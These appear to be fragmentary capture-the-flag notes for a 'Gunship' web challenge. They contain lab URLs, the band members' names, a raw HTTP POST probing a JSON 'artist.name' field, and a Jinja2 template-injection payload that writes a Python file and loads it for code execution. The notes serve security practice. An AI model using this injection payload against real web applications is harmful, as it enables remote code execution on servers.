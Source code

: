 ## Gunship page
http://139.59.183.98:31337/

## Names
https://www.retro-synthwave.com/artists/gunship

Alex Westaway (singer)

Dan Haigh (synthesizer)

Alex Gingell (drums)

## misc
Dan Haighaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa


POST /api/submit HTTP/1.1
Host: 139.59.183.98:31337
Content-Length: 19
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://139.59.183.98:31337
Referer: http://139.59.183.98:31337/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"artist.name":"a"}

?exploit={%set%20a,b,c,d,e,f,g,h,i%20=%20request.__class__.__mro__%}{{i.__subclasses__().pop(40)(request.args.file,request.args.write).write(request.args.payload)}}{{config.from_pyfile(request.args.file)}}&file=/tmp/foo.py&write=w&payload=print+1337



http://46.101.23.188:30951/?format=u
000000

Sunday the 10th of October. In approximately 121:18:10.


